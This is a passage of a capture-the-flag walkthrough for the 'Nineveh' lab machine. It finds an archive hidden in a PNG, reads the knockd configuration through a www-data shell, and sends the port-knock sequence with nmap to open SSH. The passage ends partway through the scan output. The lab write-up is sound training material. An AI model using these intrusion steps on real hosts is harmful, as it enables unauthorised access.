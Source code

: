 Looking at the picture from `/secure_notes` we find files inside

```shell
$ binwalk nineveh.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1497 x 746, 8-bit/color RGB, non-interlaced
84            0x54            Zlib compressed data, best compression
2881744       0x2BF8D0        POSIX tar archive (GNU)
```

In the other hand, we have a `knockd` service running

![](assets/Pasted%20image%2020250611134605.png)

```shell
www-data@nineveh:/var/www/ssl/secure_notes$ cat /etc/knockd.conf
cat /etc/knockd.conf
[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
```

So looking at the config, if we hit those ports in the same order, the `ssh` port will open.

```shell
$ for x in 571 290 911 22; do nmap -Pn --max-retries 0 -p $x 10.10.10.43; done
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-11 13:50 CEST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
571/tcp filtered umeter

Nmap done: 1 IP address (1 host up) scanned in 1.08 seconds
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-11 13:50 CEST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
290/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 1.14 seconds
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-11 13:50 CEST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
```